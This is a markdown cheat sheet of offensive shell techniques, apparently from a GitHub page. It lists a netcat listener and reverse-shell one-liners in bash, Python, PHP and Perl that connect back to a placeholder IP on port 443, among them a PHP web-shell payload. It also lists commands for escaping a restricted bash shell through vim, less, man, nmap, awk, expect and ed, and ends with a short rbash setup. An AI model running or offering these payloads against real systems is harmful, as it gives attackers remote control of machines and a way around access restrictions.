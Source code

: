 # shell

    # listen on 80,443 to avoid firewall drops
    nc -v -l -p 443

## reverse shell

    bash -i >& /dev/tcp/<ip>/443 0>&1

    python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<ip>",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

    # php
    <?system('bash -i >& /dev/tcp/<ip>/443 0>&1');?>

    php -r '$sock=fsockopen("127.0.0.1", 13666);exec("/bin/sh -i <&3 >&3 2>&3");'

    $output = shell_exec('python -c \'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<ip>",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);\'');
    echo $output;

    # perl
    perl -e 'use Socket;$i="<ip>";$p=443;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'

    perl -e "use Socket;socket(S,PF_INET,SOCK_STREAM,getprotobyname('tcp'));if(connect(S,sockaddr_in(443,inet_aton('<ip>')))){open(STDIN,'>&S');open(STDOUT,'>&S');open(STDERR,'>&S');exec('/bin/sh -i');};"

## direct shell

    ssh ruser@127.0.0.1 -t "bash --noprofile"
    cd /etc

    python -c "import os; os.system('/bin/sh')"
    python -c "import pty; pty.spawn('/bin/bash')"

    echo "import pty; pty.spawn('/bin/bash')" > /tmp/asdf.py
    python /tmp/asdf.py

    /bin/sh -i

    perl -e 'exec "/bin/sh";'

    ruby -e 'exec "/bin/sh"'

    lua -e 'os.execute("/bin/sh")'

    awk 'begin {system("/bin/sh")}'
    cd /etc; pwd

    :!bash
    :set shell=/bin/bash:shell

    :set shell=/bin/bash
    :shell
    cd /etc

    # within nmap
    !sh

    more long-file.txt
    !sh

    less file.txt
    !sh

    man man
    !sh

    expect
    spawn sh
    cd /etc

    ed
    !'/bin/sh'
    cd /etc
    exit
    q

## rbash setup

> restricted bash

    # enabling for a user
    cd /bin
    ln -s bash rbash
    useradd -m ruser
    usermod --shell /bin/rbash ruser
    grep -rni ruser /etc/passwd

    # start directly
    bash -r
    cd /etc/
    -rbash: cd: restricted
